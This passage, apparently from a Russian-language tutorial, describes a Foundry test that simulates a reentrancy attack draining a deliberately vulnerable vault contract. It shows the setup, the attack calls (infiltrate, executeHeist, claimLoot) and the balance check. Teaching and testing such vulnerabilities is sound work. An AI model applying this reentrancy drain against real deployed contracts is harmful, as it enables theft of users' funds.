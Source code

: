 ```solidity
            10 ether,
            "Traitor did not gain expected funds"
        );
        vm.stopPrank();
    }
}
```

#### Подготовка тестовой среды
Для начала мы создали тестовую среду, в которой развернули как уязвимый контракт (PiratesGuildVault), так и вредоносный контракт (TheTraitorWithin). 
Тестовая среда имитирует реальный сценарий, назначая две роли: жертву, которая вносит эфир в хранилище, и злоумышленника, 
который использует вредоносный контракт для эксплуатации уязвимости хранилища.

```solidity
function setUp() public {
    // Обеспечим злоумышленника и жертву эфиром
    vm.deal(traitor, 10 ether);
    vm.deal(victim, 5 ether);

    // Развертывание уязвимого контракта
    vault = new PiratesGuildVault();

    // Развертывание вредоносного контракта с адреса злоумышленника
    vm.prank(traitor);
    traitorContract = new TheTraitorWithin(payable(address(vault)));

    // Жертва присоединяется к хранилищу и вносит средства
    vm.startPrank(victim);
    vault.joinGuild();
    vault.deposit{value: 5 ether}();
    vm.stopPrank();
}
```
Этот сетап обеспечивает точную имитацию реального применения эксплойта. Жертва кладет в хранилище 5 эфиров, а злоумышленник получает необходимые ресурсы для осуществления атаки. 
Успех подтверждается, когда баланс атакующего увеличивается с 10 до 15 эфиров, что свидетельствует о том, что хранилище было опустошено.

#### Проведение атаки
Следующий шаг — симуляция атаки с помощью тестовой функции. Злоумышленник начинает с проникновения в гильдию, чтобы вступить в нее как легитимный член,
что является необходимым условием для взаимодействия с хранилищем.

` traitorContract.infiltrate(); `
После успешного присоединения злоумышленник совершает ограбление, внося в хранилище 1 Ether и сразу же запуская атаку реентерации, чтобы украсть все средства.

` traitorContract.executeHeist{value: 1 ether}(); `
После завершения атаки злоумышленник получает украденные средства по своему вредоносному контракту:

` traitorContract.claimLoot(); `
#### Проверка результатов
Наконец, тест проверяет, удалось ли использовать уязвимость, сравнивая баланс хранилища и конечный баланс злоумышленника с ожидаемыми значениями.
